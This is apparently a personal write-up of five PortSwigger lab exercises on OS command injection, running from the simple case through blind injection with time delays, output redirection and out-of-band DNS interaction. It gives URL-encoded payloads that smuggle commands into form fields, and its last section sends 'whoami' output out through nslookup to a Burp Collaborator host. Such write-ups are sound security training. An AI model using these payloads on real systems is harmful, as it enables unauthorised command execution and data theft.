 ```yaml
---
title: OS command injection - PortSwigger
date: 2022-7-1 00:00:00 +/-TTTT
categories: [PortSwigger]
tags: [PortSwigger, writeup, penetration testing, OS command injection]     
---
```








### Table of Contents

- [OS command injection, simple case](#os-command-injection-simple-case)
- [Blind OS command injection with time delays](#blind-os-command-injection-with-time-delays)
- [Blind OS command injection with output redirection](#blind-os-command-injection-with-output-redirection)
- [Blind OS command injection with out-of-band interaction](#blind-os-command-injection-with-out-of-band-interaction)
- [Blind OS command injection with out-of-band data exfiltration](#blind-os-command-injection-with-out-of-band-data-exfiltration)

<br /><br />

------




### [OS command injection, simple case](https://portswigger.net/web-security/os-command-injection/lab-simple)

Goal : execute the `whoami` command to determine the name of the current user.

- intercept and modify a request that checks the stock level.

- append `|whoami` or `;whoami` to the `storeId` parameter 

- you can use this also`productId=1%26+whoami+%23&storeId=1` it's encoded with URL encoding (`productId=1& whoami #&storeId=1`)

- check the name in the response

  



<img src="/assets/img/portswigger/command_injection/1_1.png" style="zoom:80%;" />



<br /><br />

------







### [Blind OS command injection with time delays](https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays)

Goal : exploit the blind OS command injection vulnerability to cause a 10 second delay.

- go to `submit feedback`

- I tried a lot of payloads in different parameters and finally these payloads solved the lab
  ```
  karim&`ping -c 10 127.0.0.1`#&
  OR
  karim&`sleep 10`#&
  ```

- put any one in the name or email parameter and send the request



<br />

<br />

------



### [Blind OS command injection with output redirection](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection)

Goal : execute the `whoami` command and retrieve the output.

- go to `submit feedback`

- write the payload from previous lab `%26+sleep+10+%23+` (`& sleep 10 # `) in the email parameter

- notice that it takes 10 seconds to respond , so this parameter is vulnerable

- append the payload to email parameter with URL encoding
  ```
  & whoami > /var/www/images/whoami.txt #
  ```

- open any image in new tab , replace its name with whoami.txt



![](/assets/img/portswigger/command_injection/2_1.png)



<br /><br />

------





### [Blind OS command injection with out-of-band interaction](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band)

Goal :  exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator.

- go to `submit feedback`

- submit any values

- from `Burp collaborator client `  click `copy to clipboard` 

- send this request `POST /feedback/submit ` to burp repeater

- add the payload to the email parameter (we know that is the vulnerable parameter from the previous labs)
  ```bash
  &nslookup <your_own>.burpcollaborator.net #&
  ```

- but encode it with URL encoding

- the request body will look like this
  ```bash
  csrf=UfTw8aBwMGPhF6MGrJy2VBawdAB06GQ5&name=karim&email=123%40gmail.com%26nslookup%20y21kg9ifjgutl206yib4mhvtrkxdl2.burpcollaborator.net%20%23&subject=123&message=123
  ```

  <img src="/assets/img/portswigger/command_injection/3_1.png" style="zoom:80%;" />

<br />

- send the request

- if you go to `Burp collaborator client` and click pull now , you will see the DNS request to our domain

<img src="/assets/img/portswigger/command_injection/3_2.png" style="zoom:80%;" />

<br /><br />

------





### [Blind OS command injection with out-of-band data exfiltration](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)

Goal : execute the `whoami` command and exfiltrate the output via a DNS query to Burp Collaborator. 

- go to `submit feedback`

- submit any values

- from `Burp collaborator client `  click `copy to clipboard` 

- send this request `POST /feedback/submit ` to burp repeater

- add the payload to the email parameter (we know that is the vulnerable parameter from the previous labs)

  ```bash
  & nslookup `whoami`.79etnipoqp12sb7f5ridtq22yt4nsc.burpcollaborator.net #&
  ```

- but encode it with URL encoding

- the request body will look like this
  ```bash
  csrf=5mJNRXmKKLVevRpFlC9NqvcKUm5LwMJH&name=karim&email=123%40g.com%26%20nslookup%20%60whoami%60.79etnipoqp12sb7f5ridtq22yt4nsc.burpcollaborator.net%20%23&subject=123&message=123
  ```

- send the request

- if you go to `Burp collaborator client` and click pull now , you will see the DNS request to our domain



<img src="/assets/img/portswigger/command_injection/4_1.png" style="zoom:80%;" />







------



